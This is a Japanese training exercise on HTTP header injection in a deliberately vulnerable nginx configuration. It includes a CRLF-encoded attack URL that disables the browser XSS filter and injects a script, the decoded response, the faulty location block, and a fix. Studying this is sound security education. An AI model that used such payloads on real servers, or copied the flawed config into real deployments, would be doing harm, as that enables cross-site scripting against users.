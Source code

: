 ## 演習

### アプリケーションの起動

以下のコマンドをターミナルで実行してみましょう。

```bash
docker-compose up
```

### アプリケーションの概要

このアプリケーションでは、nginxの設定であえてHTTPヘッダインジェクションを可能にする設定を加えることで、
特定のURL `http://127.0.0.1/v1/*.json` (`*`は任意の文字列)に対して、`X-Action: (任意の文字列)`というHTTPヘッダを返すようにしています。
この任意の文字列の中で改行検査をしていないため、HTTPヘッダインジェクションを起こすことができます。

### 攻撃

1. 以下のURLにアクセスします: `http://localhost/v1/see%0d%0aX-XSS-Protection:%200%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E.json`
2. インジェクションによるJavaScriptのalertダイアログが上がってきます。

この攻撃では、改行や特殊文字を解釈して示すと、以下の内容をHTTPヘッダインジェクションしていることになります。

```
see
X-XSS-Protection: 0
Content-Type: text/html

<script>alert(1)</script>.json
```

この攻撃の効果としては以下を意図しています。

* 最初の `see` は `X-Action: see` として出力される（攻撃としての効果はない）
* `X-XSS-Protection: 0` とすることでブラウザのXSSフィルタを無効化する
* `Content-Type: text/html` とすることで `<script>` タグによるXSSを使えるようになる

実際のHTTPでの返答例は次のようになります。

```
HTTP/1.1 200 OK
Server: nginx/1.15.5
Date: Wed, 31 Oct 2018 23:45:04 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 64
Connection: keep-alive
X-Action: see
X-XSS-Protection: 0
Content-Type: text/html

<script>alert(1)</script>

{"comment": "This is v1 endpoint.",
```

なお、`Content-Length: 64` となっているのは、nginx.confのreturnで返す以下の内容が64文字になっているためです。インジェクションによってこのJSONの返答の内容の前にヘッダが追加されるため、その分後から切り詰められています。

```
{"comment": "This is v1 endpoint.", "url": "http://example.com"}
```

### 攻撃の対策

この攻撃は、nginx.confのこの部分によって引き起こされたものですので、以下の該当部分を削除すれば攻撃の可能性はなくなります。

```
        location ~ /v1/((?<action>[^.]*)\.json)?$ {
            # inject received content
            add_header X-Action $action;
            return 200 '{"comment": "This is v1 endpoint.", "url": "http://example.com"}';
        }
```

この設定の具体的な問題としては

* 変数 `$action` を設定する正規表現で改行コードの検査をしていない
* `add_header` にて改行コードの検査をしていない

ことが挙げられます。
